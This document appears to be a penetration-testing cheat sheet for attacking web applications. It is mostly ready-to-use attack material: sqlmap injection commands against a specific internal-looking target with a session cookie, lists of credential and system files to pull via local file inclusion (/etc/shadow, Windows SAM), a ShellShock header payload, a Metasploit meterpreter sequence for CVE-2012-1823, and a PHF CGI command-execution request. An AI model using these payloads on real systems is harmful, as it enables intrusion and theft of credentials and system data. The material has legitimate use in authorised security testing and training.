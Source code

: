 # Attacking Web Applications

## Burp Extentions


## SQL Injection


## SQLMap Cheatsheet
```
#GET Request Injection
sqlmap –cookie=”OV3176019645=7a1p0ilqfud0s0dhdf0p5pqog4″ –url=”http://10.xx.xx.73:8080/php/index.php?tg=site&idx=menusite&item=2&#8243; -p item –proxy=http://127.0.0.1:8081

#POST Request Injection
sqlmap -r sqlmap_request2 -p txtLoginID
```


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin**
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
```
nmap -p80 --script http-cve2012-1823
msf> use exploit/multi/http/php_cgi_arg_injection
msf> set rhost [HOST_IP]
msf> set PAYLOAD php/meterpreter/bind_tcp
msf> exploit
```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd


```

